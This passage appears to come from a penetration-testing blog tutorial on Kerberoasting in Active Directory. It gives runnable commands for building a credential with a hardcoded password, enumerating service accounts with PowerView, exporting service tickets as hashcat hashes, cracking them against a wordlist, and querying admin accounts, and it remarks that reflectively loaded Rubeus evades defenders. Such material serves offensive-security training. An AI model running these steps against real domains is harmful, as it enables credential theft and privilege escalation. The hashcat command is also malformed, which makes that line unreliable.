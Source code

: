 ```
$secpasswd = ConvertTo-SecureString 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('m0chan\user', $secpasswd)

Get-DomainUser -SPN -Credential $cred
```

That's it! It will return all users with SPN Value set. 



**Exploit**

Now with the target service accounts in our scopes we can actually request a ticket for cracking which couldn't be easier with `PowerView.ps1`

Just simply run the below command

```
Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat -Credential $cred
```

This will return a SPN Ticket encrypted with the `NTLM` hash of the target account. Bare in mind here I choose Hashcat over John as I use a Nvidia cracking rig but works way way better with Hashcat.

Now we can simply crack with something like

```
hashcat64.exe -a -m 13100 SPN.hash /wordlists/rockyou.txt
```

Of course this is as simple cracking attack as it's just against a simple wordlist but if this was in the real world you would through rule sets and much more probable wordlists into the mix.



#### [](#header-4)Rubeus



Second up we have Rubeus which is a relatively new tool developed and released by the wizards at SpectreOps. Without them the hacking community wouldn't be the same. 



> Rubeus is effectively a Kerberos attack tool which we will cover a lot in this article that is developed in C#/.NET meaning it is a lot harder for defenders to detect it it's reflectively loaded using something like Cobalt's `execute-assembly` or `SILENTTRINITY.` You can also reflectively load it from PowerShell but I will be covering `.NET` in greater detail in a future article. 
>
> https://github.com/GhostPack/Rubeus`



**Enumeration**

Now by default I don't believe Rubeus has a `Enumerate` feature that simply enumerate user with the SPN Value set but truthfully that's not the hard part when it comes to Kerberoasting, with a little bit of Powershell / LDAP Magic you can find what your looking for. Below are some examples.

```powershell
get-aduser -filter {AdminCount -eq 1} -prop * | select name,created,passwordlastset,lastlogondate
```
